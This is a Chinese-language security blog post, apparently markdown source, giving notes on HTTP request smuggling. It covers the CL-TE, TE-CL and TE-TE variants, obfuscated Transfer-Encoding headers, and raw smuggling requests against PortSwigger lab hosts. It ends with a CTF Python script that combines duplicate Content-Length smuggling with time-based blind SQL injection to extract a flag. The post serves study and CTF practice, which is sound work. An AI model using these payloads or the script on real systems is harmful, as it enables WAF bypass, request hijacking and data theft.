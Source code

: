 ```yaml
---
title: http请求走私笔记
author: ch3n9w
date: 2020-08-24 22:22:46
typora-root-url: ../
categories: 安全研究
---
```






正常的请求

![image-20211114141452612](/images/http-smuggling/image-20211114141452612.png)

<!--more-->

请求走私, 攻击者通过在自己的请求中夹带一个请求, 来影响到下一个请求中, 一个典型的例子是反射型xss, 通过在上一次请求中走私一个请求头, 就可以在正常用户接下来进行的一次正常请求的过程中纂改其请求内容, 比如修改他的请求路径为一个反射性xss链接, 这样就可以达到让用户点击正常链接但是却触发xss链接的目的.

![image-20211114141459648](/images/http-smuggling/image-20211114141459648.png)

其他的利用

- 捕获用户请求
- 缓存投毒
- 绕过waf(夹带危险请求url, 并在下一次正常请求的时候触发)
- 绕过前端安全控制



首先要知道http发包过程中两个标头的意思

- Content-Length

  - 表示请求体的长度, 简称CL

  ```
  Content-Length: 10
  
  8
  HELLO
  
  ```
  

10个长度指的是以下内容的长度

```
8\r\n
HELLO\r\n
```



- Transfer-Encoding, 简称TE

  - 表示编码时使用的安全传输的形式有效载荷体

  ```
  # 常见的几种
  Transfer-Encoding: chunked
  Transfer-Encoding: compress
  Transfer-Encoding: deflate
  Transfer-Encoding: gzip
  Transfer-Encoding: identity
  ```

  请求走私中一般用的都是``chunked``, 将消息正文视为使用分块编码.这里声明8字节长度, 经过一个换行后开始统计, 统计完8字节后经过一个换行表示下一个数据块开始, 长度为0, 被视为请求终止

  ```
  Transfer-Encoding: chunked
  
  8
  SMUGGLED
  0
  
  
  ```
  
  一个典型的请求如下
  
  ```http
  HTTP/1.1 200 OK 
  Content-Type: text/plain 
  Transfer-Encoding: chunked
  
  7\r\n
  Mozilla\r\n 
  9\r\n
  Developer\r\n
  7\r\n
  Network\r\n
  0\r\n 
  \r\n
  ```
  
  

请求走私发生在存在前端服务器和后端服务器的情况下, 一般有这么几种

-  CL-TE: 前端服务器识别的是Content_-Length, 后端服务器识别的是Transfer-Encoding
- TE-CL: 前端服务器识别的是Transfer-Encoding, 后端服务器识别的是Content-Length
- TE-TE: 前端服务器和后端服务器都是识别Transfer-Encoding的, 但是可以通过某种方式处理标头诱导一台服务器不对其进行处理

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```



## CL-TE

```http
POST / HTTP/1.1
Host: ac811f861fa3584f80e0998500f800dc.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=6mA52yc42gmrXsBVf3gCCwaizRMowHXn
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

> 长度为6是因为0\r\n\r\nG, chunked看到0\r\n\r\n之后就结束接受了, 剩下来一个作为下一个请求头的开始

## TE-CL

```http
POST / HTTP/1.1
Host: ac4e1f3c1fe90e5480a44952006b00a0.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=MDCGt1IHa1MdeOnP1wkjRX15gMuiEGT6
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

12
GPOST / HTTP/1.1

0


```

> chunked检测合理, 注意0\r\n\r\n是规定的结束格式, 然后后端只取12\r\n, 剩下来的东西就变成下一个请求的一部分



## TE-TE

```http
POST / HTTP/1.1
Host: ac731fb01fc279f280a00aac002d0026.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=nGAfuCE6lQ9mnpysbHjt8yG3eO5XnU5S
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: nothing

12
GPOST / HTTP/1.1

0


```

> 这里的情况是前端服务器以第一个TE为标准后端服务器以第二个为标准, 前端服务器通过之后, 后端服务器的TE值不存在, 就转而使用Content-Length为依据, 这个时候的情况就相当于TE-CL情况



## 脚本示例

burpsuite有时候会失败, 用socket

```python
# 2019 高校运维赛 ezwaf
# 使用cl-cl模式 两个content-length
import socket

ip = '111.186.57.43'
port = 10601

def send_raw(raw):
    try:
        with socket.create_connection((ip, port), timeout=5) as conn:
            conn.send(raw)
            res = conn.recv(10240).decode()
            # print(res)
            return False
    except:
        return True



if __name__ == '__main__':
    
    res = 'flag{abypass_modsecurity_'
    res = ""
    for i in range(1, 64):
        for j in range(32, 127):
            payload = '''GET /?age=1%20or%201%20and%20ascii(substr((select%20*%20from%20flag_xdd),{},1))={}%20and%20sleep(7) HTTP/1.1
Host: 111.186.57.43:10601
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 0
Content-Length: 0

'''.format(str(i), str(j))
            exp = payload.encode().replace(b'\n', b'\r\n')
            # print(exp)
            if send_raw(exp):
                res += chr(j)
                print(res)
                continue
```



使用工具:

burpsuite插件HTTP Request Smuggler

https://github.com/defparam/smuggler

参考

https://mp.weixin.qq.com/s/MFw7Trd-zFWNXsU3wTG_Mg

https://portswigger.net/web-security/request-smuggling/exploiting
